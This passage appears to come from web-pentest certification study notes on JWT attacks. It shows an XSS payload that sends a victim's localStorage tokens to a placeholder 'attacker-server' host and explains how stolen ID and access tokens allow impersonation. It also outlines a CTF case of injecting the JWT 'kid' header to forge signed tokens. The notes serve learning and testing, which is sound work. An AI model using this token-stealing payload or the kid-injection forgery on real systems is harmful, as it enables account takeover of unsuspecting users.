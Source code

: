 ![Alt text](/assets/images/posts/ewptx/71.png){: .align-center}

### JWT Attack Scenario 2
When attacking authentication through an XSS vuln, we usually try to capture a victims cookie as follows:
```html
<script>alert(document.cookie)</script>
```

When JWT is employed an localStorage is used, we can attack authentication through XSS using JSON.stringify:
```html
 <img src='https://attacker-server/yikes?jwt='+JSON.stringify(localStorage);'--!>
```

> If u obtain an IdToken, u can use it to authenticate and impersonate the victim
> If u obtain an accessToken, u can use it to generate a newIdToken with the help of the authentication endpoint

### JWT Attack Scenario 3
A bitcoin CTF challenge that included JWT:

- uppon successful login, the user is issued a JWT inside a cookie 
- HS256 is used
- A user named admin exists
- One of the field in the JWT header, kid, is used by the server to retrieve the key and verify the signature. The problem is that no proper escaping takes place while doing so.

> If an attacker manages to control or inject to **kid**', he will be able to create his own signed tokens (since kid is essentially the key that is used to verify the signature)

What we can do:
Inject **kid** and specify a value that resides on the web server and can be predicted (as well as retrieved by the server of course)
